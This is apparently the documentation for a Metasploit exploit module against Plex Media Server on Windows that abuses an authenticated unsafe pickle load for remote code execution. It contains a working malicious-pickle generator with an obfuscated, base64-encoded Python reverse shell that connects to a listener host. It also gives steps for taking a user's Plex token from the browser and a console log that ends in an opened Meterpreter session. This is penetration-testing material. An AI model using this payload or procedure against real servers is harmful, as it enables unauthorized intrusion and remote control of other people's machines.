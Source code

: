 ## Vulnerable Application

This module exploits an authenticated Python unsafe `pickle.load` of a
`Dict` file. An authenticated attacker can create a photo library and
add arbitrary files to it. After setting the Windows only Plex
variable `LocalAppDataPath` to the newly created photo library, a file
named `Dict` will be unpickled, which causes an RCE as the user who
started Plex.

If an exploit fails, or is cancelled, `Dict` is
left on disk, a new `ALBUM_NAME` will be required as subsuquent writes
will make `Dict-1`, and not execute.

A vulnerable version of the software can be downloaded from
[uptodown.com](https://plex-media-server.en.uptodown.com/windows/versions),
specifically [1.18.5.2309](https://plex-media-server.en.uptodown.com/windows/download/2177216)
is vulnerable and used for developing the module.

The plex server needs to be claimed by an account (free is ok), and the module `PLEX_TOKEN` option
needs permission to create a library, and upload files to it.

### Pickle Stub

This exploit requires a python pickle file which can be generated with the following
code:

```
import pickle

class EP(object):
    def __init__(self):
        pass
    def __reduce__(self):
        # for generating an approximately correct size and content, we use
        # msfvenom -p python/meterpreter/reverse_tcp LPORT=9999 LHOST=192.168.0.1
        # that payload is then added after runsource.
        # The original pre-meterp return would be
        # return (eval, ("__import__('code').InteractiveInterpreter().runsource(, '<input>', 'exec')",))
        return (eval, ("__import__('code').InteractiveInterpreter().runsource(\"exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzE5Mi4xNjguMC4xJyw5OTk5KSkKCQlicmVhawoJZXhjZXB0OgoJCXRpbWUuc2xlZXAoNSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==')[0]))\", '<input>', 'exec')",))

e = EP()
pickle.dumps(e)
```
### Pickle Gotchas

All the examples of Evil Pickle attacks seem to call one command/function.
[1](https://github.com/fhightower/evil-pickle/blob/master/evil_pickle_writer.py#L17),
[2](https://medium.com/@abhishek.dev.kumar.94/sour-pickle-insecure-deserialization-with-python-pickle-module-efa812c0d565),
[3](https://blog.nelhage.com/2011/03/exploiting-pickle/),
[4](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

However, @acammack-r7 suggested a way around this. using the `InteractiveInterpreter`.
Credit to them for this original code:

```
>>> class Bad(object):
...      def __reduce__(self):
...              return (eval, ("__import__('code').InteractiveInterpreter().runsource(\"print('ok')\", '<input>', 'exec')",))
... 
>>> x = Bad()
>>> s = pickle.dumps(x)
>>> pickle.loads(s)
ok
False
```

## Verification Steps

  1. Install the application on an internet-connected host
  2. Complete configuration in the browser that pops up
  3. Register/Connect it to a Plex account (Free or Plex Pass)
  4. Start msfconsole
  5. Do: ```use windows/http/plex_unpickle_dict_rce```
  6. Do: ```run```
  7. You should get a shell.

## Options

### ALBUM_NAME

Name of the photo album to create.  Default is random 6 character.

### LIBRARY_PATH

The path to write the photo library to.  Must be valid.  Default is `C:\\Users\\Public`

### PLEX_TOKEN

The `X-Plex-Token` value from requests from an authenticated session.

There are multiple ways to obtain this value.  The easiest is most likely opening the
Console on your web browser (F12) and typing `window.localStorage.myPlexAccessToken`.
However, it can also be obtained from
[plex library files](https://support.plex.tv/articles/204059436-finding-an-authentication-token-x-plex-token/)
or by following [this comment](https://github.com/rapid7/metasploit-framework/pull/13741#issuecomment-649076121)

### REBOOT_SLEEP

Amount of seconds to sleep waiting on the server to reboot.  In testing `10` seemed to be OK, default is `15`.

## Scenarios

### Plex 10.0.16299 on Windows 10 16299

    ```
    [*] Processing plex.rb for ERB directives.
    resource (plex.rb)> use exploit/windows/http/plex_unpickle_dict_rce
    resource (plex.rb)> set rhosts 2.2.2.2
    rhosts => 2.2.2.2
    resource (plex.rb)> set lhost 1.1.1.1
    lhost => 1.1.1.1
    resource (plex.rb)> set PLEX_TOKEN aa1g1aa3aaHbAtPBsEG7
    PLEX_TOKEN => aa1g1aa3aaHbAtPBsEG7
    resource (plex.rb)> set verbose true
    verbose => true
    msf exploit(windows/http/plex_unpickle_dict_rce) > exploit
    
    [*] Started reverse TCP handler on 1.1.1.1:4444
    [*] Gathering Plex Config
    [*] Server Name: EXPLOITABLE -win10
    [+] Server OS: Windows (10.0 (Build 16299))
    [+] Server Version: 1.18.5.2309-f5213a238
    [+] Camera Upload: 1
    [*] Using album name: TAtPGj
    [*] Adding new photo library
    [+] Created Photo Library: 163
    [*] Adding pickled Dict to library
    [*] Changing AppPath
    [*] Restarting Plex
    [*] Sending stage (53755 bytes) to 2.2.2.2
    [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:51092) at 2020-07-03 14:13:08 -0400
    [*] Sleeping 15 seconds for server restart
    [*] Cleanup Phase: Reverting changes from exploitation
    [*] Changing AppPath
    [*] Restarting Plex
    [*] Deleting Photo Library
    
    meterpreter > getuid
    Server username: WIN10PROLICENSE\windows
    meterpreter > sysinfo
    Computer        : win10prolicensed
    OS              : Windows 10 (Build 16299)
    Architecture    : x64
    System Language : en_US
    Meterpreter     : python/windows
    meterpreter > pwd
    \\?\C:\Users\Public\TAtPGj\Plex Media Server\Plug-in Support\Data\com.plexapp.system
    ```
